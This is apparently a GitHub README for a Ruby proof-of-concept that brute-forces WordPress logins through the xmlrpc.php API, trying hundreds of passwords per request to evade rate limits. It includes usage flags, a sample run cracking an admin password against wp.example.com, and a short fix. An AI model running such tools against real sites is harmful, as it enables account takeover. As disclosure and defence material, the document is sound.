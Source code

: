 # Wordpress Bruteforcer
This is a rough POC that demonstrates the recent amplified bruteforce attack on wordpress based website via `xmlrcp` API. 

# Issue
This particular vulnerability allows an attacker to bypass webserver rate limits. Instead of the attacker sending one query with a one password, he or she can now send one query with 500 passwords via `xmlrpc` API. 

##### Classic Bruteforce
```
Attacker                          WP Server
|----password1---------------------------->
<---------------------------------nope----|
|----password2---------------------------->
<---------------------------------nope----|
|----password3---------------------------->
<---------------------------rate-limit----|
|----password4---------------------------->
<---------------------------rate-limit----|
|----password5---------------------------->
<---------------------------rate-limit----|
|----password6---------------------------->
<----------------------------------yes----|
```

##### Amplified Bruteforce
```
Attacker                          WP Server
|----p1,p2,p3,p4,p5,p6-------------------->
<---------nope,nope,nope,nope,nope,yes----|
```

# Fix 
Block the `xmlrpc.php` access from the configuration files like `.htaccess` or `nginx.conf`

# Usage
```
ruby ./wpbrute-rpc.rb --url=[...] --user=[...] --count=[...] --list=[...]
   --url     The wordpress RPC endpoint.
   --user    The username you would like to bruteforce.
   --count   The number of attempts per RPC request.
   --list    The path to your password dictionary.

== More Info ==
* Ensure that the website is active, has the correct protocol (http or https), and ends in 'xmlrpc.php'.
* The wordlist should just be a list of word seperated by the new-line character.
* If you get a 'Parse error' then your count is too high.
```

##### Live Example
```
bundle install
ruby ./wpbrute-rpc.rb --url="https://wp.example.com/xmlrpc.php" --user=admin --count=500 --list=./500-worst-passwords.txt

Password found!
> admin

```
